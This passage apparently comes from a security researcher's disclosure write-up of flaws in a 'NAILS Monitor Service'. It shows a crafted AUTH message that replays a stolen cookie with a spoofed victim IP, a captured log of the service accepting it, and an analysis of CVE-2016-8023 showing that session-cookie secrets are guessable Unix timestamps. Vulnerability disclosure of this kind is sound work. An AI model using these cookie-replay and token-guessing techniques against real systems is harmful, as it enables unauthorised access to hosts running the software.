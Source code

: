We'll modify our cookie so the message sent is:

```
AUTH [stolen cookie + VICTIM IP ] [ATTACKER IP]

```

The service incorrectly parses this line and believes that it's reading a cookie sent from the victim's IP address.

The full communication ends up looking like:

```
< 2015/07/30 11:14:28.119036 length=70 from=0 to=69
+OK welcome to the NAILS Monitor Service <19224.2214.1438280068.161>\r

2015/07/30 11:14:28.119326 length=54 from=0 to=53
auth 2259618965-19224.2214.1438280068.161-2259618965\r
< 2015/07/30 11:14:28.119399 length=31 from=70 to=100
+OK successful authentication\r
2015/07/30 11:14:28.137344 length=66 from=54 to=119
cred 127.0.0.1/nails/1438280067/1438279968-checksum//0 127.0.0.1 10.0.0.130\r
< 2015/07/30 11:14:28.137530 length=20 from=101 to=120
+OK credentials OK\r
```


---

### Vulnerability 8 (CVE-2016-8023): Brute Force Authentication Tokens
After seeing the previous cookie-parsing logic fail, I wanted to test how well the other cookie validation logic worked.

Here are a few sample values for the `nailsSessionId` cookies that were generated by logging in and out for the **nails** account:

```
127.0.0.1/nails/1459548338/1459548277-checksum//0
127.0.0.1/nails/1459549661/1459549629-checksum//0
127.0.0.1/nails/1459549695/1459549629-checksum//0
```

Only two parts of the cookie seem to change between typical login attempts. The cookie format seems to be:
```
[host]/[username]/[SECRET1]/[SECRET2]-checksum//[Zero]
```

Where typical values are as follow:

| Variable   | Description                                   | Observed Values           |
|------------|-----------------------------------------------|---------------------------|
| [host]     | An IP Address                                 | 0.0.0.0 or 127.0.0.1      |
| [username] | The username of the logged-in user.           | nails                     |
| [SECRET1]  | Unix time at which the cookie was assigned    | 1435067777                |
| [SECRET2]  | Unix time at which the server was started     | 1435066996                |
| [Zero]     | The number 0                                  | 0                         |
